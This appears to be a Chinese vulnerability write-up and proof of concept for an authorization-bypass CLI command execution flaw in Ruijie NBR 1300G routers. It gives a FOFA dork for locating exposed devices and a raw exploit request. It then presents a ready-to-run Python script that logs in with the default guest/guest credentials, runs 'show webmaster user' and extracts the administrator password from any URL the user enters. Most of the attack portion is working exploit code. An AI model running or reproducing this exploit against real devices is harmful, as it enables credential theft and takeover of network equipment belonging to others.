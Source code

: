 # 锐捷 NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

```
锐捷NBR路由器
```

## FOFA

```
title="锐捷网络 --NBR路由器--登录界面"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110924487.png)

查看流量发现 CLI命令流量

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110924114.png)

请求包为

```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）

登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110924928.png)

成功获取所有用户的账号密码

```plain
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷NBRNBR1300G 路由器 越权CLI命令执行漏洞                    \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/WEB_VMS/LEVEL15/"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = 'command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "webmaster" in response.text and " password" in response.text and response.status_code == 200:
            user_data = re.findall(r'webmaster level 0 username admin password (.*?)<OPTION>', response.text)[0]
            print("\033[36m[o] 成功获取, 管理员用户账号密码为: admin/{} \033[0m".format(user_data))
        else:
            print("\033[31m[x] 请求失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110925172.png)